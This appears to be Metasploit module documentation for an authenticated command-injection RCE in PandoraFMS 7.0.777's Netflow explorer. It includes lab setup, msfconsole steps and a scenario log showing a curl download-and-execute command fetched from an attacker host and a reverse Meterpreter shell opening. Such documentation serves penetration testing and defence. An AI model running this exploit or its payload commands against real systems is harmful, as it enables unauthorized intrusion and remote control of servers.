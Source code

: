 ## Vulnerable Application

PandoraFMS offers multiple modules that can be turned on or off with an administrative account.
One of them is Netflow, which is responsible for real-time network monitoring.
It can collect network data and then report or dump it.
Once Netflow is configured, it allows you to perform various tasks, such as viewing and exporting network data.

The Netflow explorer contains a vulnerability when an unsanitized parameter from the Netflow configuration is placed into a string that gets executed using the exec() function.

The PandoraFMS can be installed from [here](https://sourceforge.net/projects/pandora/files/Pandora%20FMS%207.0NG/777/Tarball/):

1. Download vulnerable PandoraFMS
2. Install webserver - Apache2, MySQL, PHP
3. Following installation steps of PandoraFMS
4. Run: `sudo apt install nfdump`


## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use linux/http/pandora_fms_auth_netflow_rce`
1. Do: `set rhosts [target IP]`
1. Do: `set lhost  [attacker IP]`
1. Do: `set username  [username]`
1. Do: `set password  [password]`
1. Do: `run`
1. You should get a shell.

## Options


### USERNAME

Login username of existing user.

### PASSWORD

Login password of existing user.

## Scenarios

```
msf6 exploit(linux/http/pandora_fms_auth_netflow_rce) > set rhosts 192.168.168.146
msf6 exploit(linux/http/pandora_fms_auth_netflow_rce) > set PASSWORD pandora
msf6 exploit(linux/http/pandora_fms_auth_netflow_rce) > set USERNAME admin
msf6 exploit(linux/http/pandora_fms_auth_netflow_rce) > run verbose=true 
[*] Command to run on remote host: curl -so ./khZKmkFYijJ http://192.168.168.128:8080/M1We21fZKyvgtWK9IWStLA;chmod +x ./khZKmkFYijJ;./khZKmkFYijJ&
[*] Fetch handler listening on 192.168.168.128:8080
[*] HTTP server started
[*] Adding resource /M1We21fZKyvgtWK9IWStLA
[*] Started reverse TCP handler on 192.168.168.128:4444 
[*] 192.168.168.146:80 - Running automatic check ("set AutoCheck false" to disable)
[*] 192.168.168.146:80 - Version 7.0.777 detected
[+] 192.168.168.146:80 - The target is vulnerable. Vulnerable PandoraFMS version 7.0.777 detected
[*] Client 192.168.168.146 requested /M1We21fZKyvgtWK9IWStLA
[*] Sending payload to 192.168.168.146 (curl/7.68.0)
[*] Meterpreter session 2 opened (192.168.168.128:4444 -> 192.168.168.146:54980) at 2025-06-25 12:27:52 +0200

meterpreter > sysinfo
Computer     : 192.168.168.146
OS           : Ubuntu 20.04 (Linux 5.15.0-136-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```
